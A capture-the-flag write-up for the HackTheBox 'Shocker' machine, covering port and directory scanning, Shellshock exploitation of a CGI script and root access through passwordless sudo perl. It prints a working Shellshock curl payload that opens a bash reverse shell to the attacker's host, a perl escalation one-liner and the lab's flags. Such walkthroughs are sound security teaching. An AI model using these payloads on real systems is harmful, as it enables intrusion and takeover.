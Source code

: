 # hackthebox shocker writeup

[link to the box](https://app.hackthebox.com/machines/Shocker)

1. [scanning](#scanning)
2. [exploiting](#exploiting)
3. [pwning](#pwning)

# scanning

as with anything, we must first scan for open ports.

```bash
$ nmap -sV -Pn 10.10.10.56
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

looks like we have we website hosted on port 80, lets go there.

http://10.10.10.56:80/

which is a blank webpage with an image embedded in it. inspecting the header in burpsuite shows little information either.

but there are files stored on this webserver, like the image. lets run `gobuster` and see if we can spot anything else.

after trying a few wordlists, `small.txt` from the default kali wordlists gives us the following:

```bash
$ gobuster dir -w <wordlists dir>/dirb/small.txt --url http://10.10.10.56:80/
# entries omitted for clarity
...
/cgi-bin/ (Status: 403)
...
```

this directory is special, since it hosts scripts that can be/are run by the webserver. we use `dirbuster` (instead of gobuster) to find some files with common scripting language extensions for a linux host:

```bash
$ cat script-extensions.txt
# these are some of the many extensions we could search for
.pl
.php
.py
.sh
```

scanning into the directory using our extension list gets us the following:

```bash
$ dirb http://10.10.10.56:80/cgi-bin/ -x script-extensions.txt
---- Scanning URL: http://10.10.10.56:80/cgi-bin/ ----
+ http://10.10.10.56:80/cgi-bin/user.sh (CODE:200|SIZE:119)
```

by visiting this webpage we can run said `user.sh` script, but we cannot modify it directly.

![user.sh](img/usrsh.png)

# exploiting

since we know that `.sh` files are basically always bash scripts, we can look up ways to leverage this:

![search results for "exploit bash script on web server"](img/searchresults.png)

[this webpage](https://www.ampliasecurity.com/blog/2014/09/24/exploiting_bash_remote_code_execution_vulnerability_CVE-2014-6271/) explains nicely how to use this exploit. any script called using `/bin/bash -c <command>` is vulnerable!

running

```bash
$ curl -H "User-Agent: () { :;}; echo; echo \"/bin/bash -i >& /dev/tcp/<your local ip>/<any sane port> 0>&1\" | /bin/bash" http://10.10.10.56:80/cgi-bin/user.sh
```

will connect to your netcat listener you started using 

```bash
$ nc -lvp <your local ip>
```

we now have a reverse shell on the server!

# pwning

running `whoami` tells us that we are user `shelly`. we can probably find the user flag in `/home/shelly/`.

```bash
$ cat /home/shelly/user.txt
9fea9acc39d8f1b6fb04b319a74c5bf3
```

now we need to find root. the simplest way is to see what permissions `shelly` user has.

`/etc/sudoers` and `/etc/doas.conf` are unreadable and do not exist respectively. but we can still see what we can do using `sudo -l`.

and with no passwrod required, we have full access to `sudo /usr/bin/perl`. its pretty obvious how we can execute anything from perl.

to get a bash shell, run 

```
$ sudo perl -e 'exec "/bin/bash"'
$ whoami
root
```

to get the flag, cat the flag in root's home directory

```bash
$ cat /root/root.txt
b949166b17a9d67175cd0f923d4213de
```

congrats! youre winner.
